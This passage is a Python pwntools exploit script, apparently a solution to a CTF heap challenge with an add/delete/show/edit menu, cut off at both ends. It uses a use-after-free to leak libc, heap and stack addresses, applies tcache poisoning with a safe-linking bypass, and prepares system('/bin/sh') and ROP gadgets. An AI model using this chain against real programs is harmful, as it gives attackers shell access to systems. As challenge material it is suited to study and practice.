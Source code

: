 ```
	gdb.attach(io)
	
def add(index, size):
	io.sendlineafter('>>', '1')
	io.sendlineafter('idx? ', str(index))
	io.sendlineafter('size? ', str(size))
	
def delete(index):
	io.sendlineafter('>>', '2')
	io.sendlineafter('idx? ', str(index))
	
def show(index):
	io.sendlineafter('>>', '3')
	io.sendlineafter('idx? ', str(index))
	
def edit(index, content):
	io.sendlineafter('>>', '4')
	io.sendlineafter('idx? ', str(index))
	io.sendlineafter('content : ', content)
	
libc = ELF('./libc.so.6')
	
add(0, 0x410)
add(1, 0x60)
add(2, 0x60)
delete(0)
show(0)
io.recvuntil('content : ')
environ = u64(io.recv(6).ljust(8, b'\0')) + 0x7520
success('environ =>> ' + hex(environ))
libcbase = environ - libc.sym['environ']
sys = libcbase + libc.sym['system']
bin_sh = libcbase + libc.search(b'/bin/sh\x00').__next__()
rdi = libcbase + 0x2a3e5
ret = libcbase + 0x29139

delete(1)
delete(2)
show(1)
io.recvuntil('content :')
heap = u64(io.recv(6).ljust(8, b'\0')) * 0x10 + 0x530
success('heap =>> ' + hex(heap))

edit(2, p64((heap >> 12) ^ (environ)))

add(3, 0x60)

add(4, 0x60)
show(4)
io.recvuntil('content : ')
stack = u64(io.recv(6).ljust(8, b'\0')) - 0x120
success('stack =>> ' + hex(stack))

add(5, 0x60)
delete(5)
delete(3)

edit(3, p64((heap >> 12) ^ (stack - 0x8)))
add(6, 0x60)
add(7, 0x60)
edit(7, b'A' * 0x18)
show(7)
io.recvuntil('content : ')
```